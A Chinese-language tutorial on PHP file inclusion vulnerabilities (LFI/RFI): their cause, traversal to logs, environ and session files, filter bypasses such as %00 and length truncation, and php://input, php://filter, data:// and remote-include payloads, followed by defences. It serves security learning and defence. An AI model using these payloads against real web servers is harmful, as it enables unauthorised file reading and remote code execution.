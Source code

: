

# 文件包含漏洞 `LFI/RFI`

## 什么是文件包含

为了使代码具有更好的复用性，引入了文件包含函数，可以通过文件包含函数将文件包含进来，直接使用包含文件的代码

## 漏洞成因

在包含文件时候，为了灵活包含文件，将被包含文件设置为变量，通过动态变量来引入需要包含的文件时，用户可以对变量的值可控而服务器端未对变量值进行合理地校验或者校验被绕过，这样就导致了文件包含漏洞。通常文件包含漏洞出现在PHP语言中。

## 要点

文件包含可以包含任意文件，即便被包含的文件并不是与当前编程语言相关，甚至为图片，只要被包含的文件，其内容会被包含文件包含，并以包含文件当前语言执行

## 文件包含分类

文件包含可分为2个类别: 本地文件包含 `LFI(Local File Inclusion)`, 远程文件包含 `RFI(Remote File Inclusion)`

## 本地文件包含 `(LFI)`

能够读取或执行包含服务器本地文件以及资源

## 远程文件包含 `(RFI)`

能够读取或执行包含远程服务器的文件及资源, 利用针对的是`http`、`ftp`等协议

### 前置条件

需要在php.ini配置

- allow_url_fopen=On
- allow_url_include=On

## 利用函数

- PHP
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once

## 文件包含形式

常见的文件包含漏洞的形式为 ``<?php include("inc/" . $_GET['file']); ?>``

考虑常用的几种包含方式为

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用系统环境 ``/proc/self/environ``
- 临时文件包含 ``/tmp``
- session文件 ``php的session文件的保存路径可以在phpinfo的session.save_path看到``
- 包含上传文件

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

## 绕过技巧

常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

### url编码绕过

如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

### 特殊字符绕过

- 某些情况下，读文件支持使用Shell通配符，如 ``?`` ``*`` 等
- url中 使用 ``?`` ``#`` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

### %00截断

几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

### 长度截断

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义 ``#define MAX_PATH 260``，其中第260个字符为字符串结尾的 ``\0`` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096
获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，``././././`` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

### 伪协议绕过

- 远程包含: 要求 ``allow_url_fopen=On`` 且 ``allow_url_include=On`` ， payload为 ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt`` 的形式
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
- Base64: 使用Base64伪协议读取文件，payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 的形式
- data: 使用data伪协议读取文件，payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

### 协议绕过

``allow_url_fopen`` 和 ``allow_url_include`` 主要是针对 ``http`` ``ftp`` 两种协议起作用，因此可以使用SMB、WebDav协议等方式来绕过限制。


## 防御

- 严格判断包含中的参数是否外部可控，因为文件包含漏洞利用成功与否的关键点就在于被包含的文件是否可被外部控制
- 路径限制：限制被包含的文件只能在某一文件内，一定要禁止目录跳转字符，如：`../`
- 包含文件验证：验证被包含的文件是否是白名单中的一员
- 尽量不要使用动态包含，可以在需要包含的页面固定写好，如：`include('head.php')`
- 必要时, 可将php.ini的配置选项allow_url_include，allow_url_fopen状态设置为OFF

## 参考链接

- [Exploit with PHP Protocols ](https://www.cdxy.me/?p=752)
- [lfi cheat sheet ](https://highon.coffee/blog/lfi-cheat-sheet/)
- [paper01](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)
- [paper02](https://ca0y1h.top/Web_security/basic_learning/13.%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)